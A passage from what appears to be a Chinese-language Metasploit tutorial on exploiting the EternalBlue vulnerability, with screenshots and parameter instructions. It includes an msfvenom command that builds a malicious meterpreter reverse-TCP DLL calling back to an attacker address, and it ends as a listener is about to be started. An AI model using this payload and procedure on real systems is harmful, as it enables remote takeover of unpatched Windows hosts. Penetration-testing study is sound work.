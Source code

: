 ![永恒之蓝](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片9.png)  
一路回车；  
![永恒之蓝](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片10.png)  
需要填写的参数如上，x86/x64按照目标主机来定，function选择2）rundll
即把一个而已dll注入目标主机，然后目标主机执行dll并连接到接受shell的主机，现在利用msf生成一个恶意dll：
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.106.1 lport=6666 -f dll>c:\\winxp.dll
将生成的dll放到攻击机里面，然后在dllpayload里面填写dll路径：  
![永恒之蓝](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片11.png)  
然后在接受shell主机里面开启msf监听：  